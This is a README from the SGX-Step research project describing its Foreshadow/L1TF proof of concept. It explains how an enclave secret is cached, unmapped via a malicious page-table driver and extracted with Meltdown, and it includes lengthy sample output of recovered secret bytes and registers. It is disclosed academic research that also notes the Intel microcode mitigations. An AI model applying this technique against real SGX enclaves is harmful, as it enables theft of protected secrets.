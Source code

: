 # Foreshadow: Extracting the keys to the Intel SGX kingdom with transient out-of-order execution

The PoC (app/foreshadow) generates a random secret in an enclave, loads
it in L1D, and then extracts the cache line contents from the untrusted
surrounding process using Foreshadow/L1TF. From a high level, the attack
proceeds in 3 phases:

### 1. Load enclave secret in cache

We explore various techniques in the [USENIX
paper](https://foreshadowattack.eu/foreshadow.pdf), but the simplest of
course is to execute the enclave. The PoC also demonstrates how CPU
registers can be retrieved from the enclave State Save Area (SSA) frame
upon interrupt/fault.

### 2. Unmap enclave page

This is the trick to make Foreshadow work: we clear the "present" bit in
the page table entry mapping the enclave secret (in contrast to Meltdown
which bypasses the "supervisor" bit).

Simplest to do this on unpatched Linux systems was the unprivileged
`mprotect(PROT_NONE)` system call, which originally cleared the "present"
bit while leaving the physical page address unmodified. However, all
recent Linux kernels have been unconditionally patched since August to
sanitize the physical page address upon mprotect. We therefore rely on a
malicious driver (`/dev/sgx-step`) to map the process's page table entries
in user space. Arbitrary enclave page table manipulation can now simply
be performed via a convenient library (`libsgxstep/pt.c`).

Note that we setup a dedicated "alias" page table mapping with the
present bit cleared in the PoC code (`attacker_config_page_table`
function). Having a separate valid mapping for the enclave, plus invalid
mapping for the attacker, allows to easily execute/extract the enclave
w/o switching to the kernel.

### 3. Execute Meltdown

After unmapping, we simply execute plain vanilla Meltdown to extract the
enclave secret from L1D using a Flush+Reload covert channel (see
`libsgxstep/foreshadow.c` and `libsgxstep/transient.S`).

## Running and sample output

After properly installing SGX-Step, as explained in the top-level directory
[README.md](https://github.com/jovanbulck/sgx-step/blob/master/README.md),
simply execute:

```bash
$ make run
```

**Note (mitigations).** In order to successfully run the PoC, you need to
disable CPU microcode patches (e.g., using the `dis_ucode_ldr` Linux kernel
parameter). Intel mitigated this attack with a microcode update that
automatically flushes L1D on enclave entry/exit and extends attestation to
include whether HyperThreading (HT) is enabled/disabled. Since we also
demonstrated concurrent L1D extraction from a sibling HT CPU, you should
only trust non-HT attestations to date.

Sample output (note: in this case the last cacheline (8 registers including
RIP) seems to be almost always flushed -- probably because of the kernel #PF
handler execution):

```
[pt.c] /dev/sgx-step opened!
[pt.c] /dev/mem opened!
[main.c] Creating enclave...
[sched.c] continuing on CPU 1
==== Victim Enclave ====
    Base:   0x7fb055800000
    Size:   4194304
    Limit:  0x7fb055c00000
    TCS:    0x7fb055b7c000
    SSA:    0x7fb055b7df48
    AEP:    0x403adb
    EDBGRD: debug
[main.c] oracle at 0x7fb057a48000
[main.c] Randomly generated enclave secret at 0x7fb055a1b580 (page 0x7fb055a1b000); alias at 0x7fb057b6e580 (revoking alias access rights)
+-------------------------------------------------------------------------------------------+
| XD | PK | IGN | RSVD | PHYS ADRS      | IGN | G | PAT | D | A | PCD | PWT | U/S | R/W | P | 
| 0  | x  | x   | x    | 0x001884360704 | x   | x | x   | 1 | 1 | x   | x   | x   | 1   | 1 | 
+-------------------------------------------------------------------------------------------+
+-------------------------------------------------------------------------------------------+
| XD | PK | IGN | RSVD | PHYS ADRS      | IGN | G | PAT | D | A | PCD | PWT | U/S | R/W | P | 
| 0  | x  | x   | x    | 0x001884360704 | x   | x | x   | 0 | 1 | x   | x   | x   | 1   | 0 | 
+-------------------------------------------------------------------------------------------+
[main.c] enclave SSA GPRSGX region at 0x7fb055b7df48; alias at 0x7fb057b6bf48 (revoking alias access rights)
+-------------------------------------------------------------------------------------------+
| XD | PK | IGN | RSVD | PHYS ADRS      | IGN | G | PAT | D | A | PCD | PWT | U/S | R/W | P | 
| 0  | x  | x   | x    | 0x001882963968 | x   | x | x   | 1 | 1 | x   | x   | x   | 1   | 1 | 
+-------------------------------------------------------------------------------------------+
+-------------------------------------------------------------------------------------------+
| XD | PK | IGN | RSVD | PHYS ADRS      | IGN | G | PAT | D | A | PCD | PWT | U/S | R/W | P | 
| 0  | x  | x   | x    | 0x001882963968 | x   | x | x   | 0 | 1 | x   | x   | x   | 1   | 0 | 
+-------------------------------------------------------------------------------------------+

--------------------------------------------------------------------------------
[main.c] Foreshadow secret extraction
--------------------------------------------------------------------------------

[main.c] prefetching enclave secret (EENTER/EEXIT)...
[main.c] extracting secret from L1 cache..
[foreshadow.c] cache hit/miss=52/246; reload threshold=134
[main.c] verifying and destroying enclave secret..
    shadow[ 0]=0x37; enclave[ 0]=0x37    shadow[ 1]=0xa8; enclave[ 1]=0xa8
    shadow[ 2]=0xef; enclave[ 2]=0xef    shadow[ 3]=0x98; enclave[ 3]=0x98
    shadow[ 4]=0xb8; enclave[ 4]=0xb8    shadow[ 5]=0xd6; enclave[ 5]=0xd6
    shadow[ 6]=0x78; enclave[ 6]=0x78    shadow[ 7]=0x2d; enclave[ 7]=0x2d
    shadow[ 8]=0x76; enclave[ 8]=0x76    shadow[ 9]=0x48; enclave[ 9]=0x48
    shadow[10]=0xd3; enclave[10]=0xd3    shadow[11]=0x91; enclave[11]=0x91
    shadow[12]=0xe9; enclave[12]=0xe9    shadow[13]=0xd6; enclave[13]=0xd6
    shadow[14]=0x61; enclave[14]=0x61    shadow[15]=0x59; enclave[15]=0x59
    shadow[16]=0xb0; enclave[16]=0xb0    shadow[17]=0x52; enclave[17]=0x52
    shadow[18]=0x87; enclave[18]=0x87    shadow[19]=0xb5; enclave[19]=0xb5
    shadow[20]=0xdb; enclave[20]=0xdb    shadow[21]=0x9e; enclave[21]=0x9e
    shadow[22]=0x6a; enclave[22]=0x6a    shadow[23]=0xa6; enclave[23]=0xa6
    shadow[24]=0xd6; enclave[24]=0xd6    shadow[25]=0xe5; enclave[25]=0xe5
    shadow[26]=0xaa; enclave[26]=0xaa    shadow[27]=0x0a; enclave[27]=0x0a
    shadow[28]=0xdb; enclave[28]=0xdb    shadow[29]=0xf8; enclave[29]=0xf8
    shadow[30]=0x3a; enclave[30]=0x3a    shadow[31]=0x15; enclave[31]=0x15
    shadow[32]=0x5f; enclave[32]=0x5f    shadow[33]=0x9e; enclave[33]=0x9e
    shadow[34]=0xc2; enclave[34]=0xc2    shadow[35]=0x45; enclave[35]=0x45
    shadow[36]=0x2f; enclave[36]=0x2f    shadow[37]=0x9d; enclave[37]=0x9d
    shadow[38]=0x11; enclave[38]=0x11    shadow[39]=0xa9; enclave[39]=0xa9
    shadow[40]=0x47; enclave[40]=0x47    shadow[41]=0x4f; enclave[41]=0x4f
    shadow[42]=0x24; enclave[42]=0x24    shadow[43]=0x00; enclave[43]=0x00
    shadow[44]=0x94; enclave[44]=0x94    shadow[45]=0x87; enclave[45]=0x87
    shadow[46]=0x01; enclave[46]=0x01    shadow[47]=0xf8; enclave[47]=0xf8
    shadow[48]=0xe1; enclave[48]=0xe1    shadow[49]=0xcf; enclave[49]=0xcf
    shadow[50]=0xda; enclave[50]=0xda    shadow[51]=0xf6; enclave[51]=0xf6
    shadow[52]=0x16; enclave[52]=0x16    shadow[53]=0xd7; enclave[53]=0xd7
    shadow[54]=0xa1; enclave[54]=0xa1    shadow[55]=0xe8; enclave[55]=0xe8
    shadow[56]=0xfe; enclave[56]=0xfe    shadow[57]=0xc8; enclave[57]=0xc8
    shadow[58]=0xad; enclave[58]=0xad    shadow[59]=0x4c; enclave[59]=0x4c
    shadow[60]=0x45; enclave[60]=0x45    shadow[61]=0xd6; enclave[61]=0xd6
    shadow[62]=0x96; enclave[62]=0x96    shadow[63]=0x2c; enclave[63]=0x2c
[foreshadow.c] [OK] Foreshadow correctly derived all 64 bytes!

--------------------------------------------------------------------------------
[main.c] Foreshadow SSA frame extraction
--------------------------------------------------------------------------------

[main.c] revoking trigger secret access rights..
[#PF handler] ERESUME prefetch to refresh GPRSGX region; byte: 14 14 14 14 14 14 14 14 14 14 14 14 14 14 14 14 14 14 14 14 
[main.c] finishing enclave execution (restoring trigger access rights)
=== Foreshadow recovered SSA/GPRSGX region after AEX ===
    RAX:      0xdeadbeefcafebabe
    RCX:      0xd0000dbaaaaaaaad
    RDX:      0xdeadc0debaadf00d
    RBX:      0xdabbad00dabbad00
    RSP:      0x7fb055b6bc90
    RBP:      0x7fb055b8f000
    RSI:      0x7fb055a1b580
    RDI:      0xdddddddddddddddd
    R8:       0x8888888888888888
    R9:       0x9999999999999999
    R10:      0x1010101010101010
    R11:      0x1111111111111111
    R12:      0x1212121212121212
    R13:      0x1313131313131313
    R14:      0x1414141414141414
    R15:      0x0
    RFLAGS:   0x0
    RIP:      0x0
    URSP:     0x0
    URBP:     0x0
    EXITINFO: 0x0
    FSBASE:   0x0
    GSBASE:   0x0
[foreshadow.c] Foreshadow conf: 0X00_RETRIES=20 SSA_0x00_RETRIES=20
[foreshadow.c] Foreshadow perf: 0x00 retries=40963; number AEX=22
[main.c] total of 22 faulting ERESUME calls needed
```
